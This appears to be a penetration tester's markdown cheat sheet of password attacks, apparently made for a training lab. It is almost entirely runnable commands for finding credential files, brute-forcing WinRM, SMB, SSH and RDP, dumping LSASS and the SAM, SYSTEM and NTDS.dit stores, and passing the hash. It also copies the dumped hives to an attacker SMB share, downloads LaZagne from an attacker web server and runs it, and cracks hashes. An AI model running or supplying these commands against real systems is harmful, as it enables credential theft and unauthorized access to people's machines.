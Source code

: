 ### Password Locations

```md
- `Files`: including configs, databases, notes, scripts, source code, cronjobs, and SSH keys
  - Configuration files (.config, .conf, .cnf)
```
``bash
    - for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
```md
  - Databases
  - Notes
  - Scripts
  - Cronjobs
  - SSH keys
- `History`: including logs, and command-line history
- `Memory`: including cache, and in-memory processing
- `Key-rings`: such as browser stored credentials
```

### Password Mutations

```bash
# Generate a wordlist from a website
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist

# Generate rule-based word list using Hashcat
hashcat --force password.list -r custom.rule --stdout > mut_password.list

# Download a list of file extensions for password searching
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt

# Generate potential usernames using username-anarchy
./username-anarchy -i ~/name.txt > usernames.txt

# Kerbrute (after username-anarchy) to hone in on legitimate usernames
./kerbrute_linux_amd64 userenum --dc 10.129.202.85 --domain ILF.local names.txt
```

### Remote Password Attacks

```bash
# Brute-force WinRM service
crackmapexec winrm <ip> -u user.list -p password.list

# Enumerate SMB shares using specified credentials
crackmapexec smb <ip> -u "user" -p "password" --shares

# Attempt password cracking over specified service with Hydra
hydra -L user.list -P password.list <service>://<ip>
hydra -l username -P password.list <service>://<ip>
hydra -L user.list -p password <service>://<ip>
hydra -C <user_pass.list> ssh://<IP>

# Dump password hashes using CrackMapExec
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
crackmapexec smb <ip> -u <username> -p <password> --ntds

# Establish a PowerShell session using Evil-WinRM
evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
```

### Windows Local Password Attacks

```powershell
# List running processes
tasklist /svc

# Search files for "password"
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

# Dump LSASS process
Get-Process lsass
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

# Extract credentials from LSASS dump
pypykatz lsa minidump /path/to/lsassdumpfile

# Save and move registry hives
reg.exe save hklm\sam C:\sam.save
move sam.save \\<ip>\NameofFileShare
---
attacker: sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData "$(pwd)"

win machine:
reg save HKLM\SAM \\10.10.15.178\CompData\sam.save
reg save HKLM\SYSTEM \\10.10.15.178\CompData\system.save
reg save HKLM\SECURITY \\10.10.15.178\CompData\security.save

attacker: python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

copy C:\Windows\Temp\lsass.dmp \\10.10.15.178\CompData\lsass.dmp
---

# Dump password hashes using secretsdump.py
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# Create volume shadow copy and copy NTDS.dit
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# Using NetExec to capture NTDS.dit - One-liner
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

# Pass the Hash (PtH)
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

#LaZagne
attacker: python3 -m http.server 8000
Win Target: Invoke-WebRequest -Uri http://10.10.14.118:8000/LaZagne.exe -OutFile $env:TEMP\LaZagne.exe
Win Target: $path="$env:TEMP\LaZagne.exe"
Win Target: & $path all
```

### Linux Local Password Attacks

```bash
# Find configuration files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done

# Search for credentials in files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "\#";done

# Find common database files
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done

# Search for text files
find /home/* -type f -name "*.txt" -o ! -name "*.*"

# Search for private keys
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

# Extract last 5 lines from bash history
tail -n5 /home/*/.bash*
```

### Cracking Passwords

```bash
# Crack NTLM hashes with Hashcat
hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt

# Crack single NTLM hash and show results
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show

# Combine passwd and shadow files for cracking
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

# Crack unshadowed hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

# Extract SSH key hashes and crack them
python3 ssh2john.py SSH.private > ssh.hash
john ssh.hash --show

# Extract and crack Office file hashes
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash

# Crack PDF and ZIP file hashes
pdf2john.pl PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash

# Extract and crack BitLocker hashes
bitlocker2john -i Backup.vhd > backup.hashes

# Decrypt encrypted files with OpenSSL
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz;done
```

### Network Services

```bash

# Netexec
netexec <proto>(winrm) <target-IP> -u <user or userlist> -p <password or passwordlist>
sudo apt-get -y install netexec

# Evil-WinRM
Do this after Netexec
sudo gem install evil-winrm
evil-winrm -i <target-IP> -u <username> -p <password>

# Hydra RDP
hydra -L user.list -P password.list rdp://10.129.42.197

# Hydra SMB
hydra -L user.list -P password.list smb://10.129.42.197
Had to finish using msfconsole
smbmap -H 10.129.202.136 -u username -p 'password'
smbclient -U user \\\\10.129.42.197\\SHARENAME

# Hydra SSH
hydra -L user.list -P password.list ssh://10.129.42.197
- pass-stuff: hydra -C user_pass.list ssh://10.100.38.23

# Find a file using cmd
dir C:\*flag.txt* /s /b
```
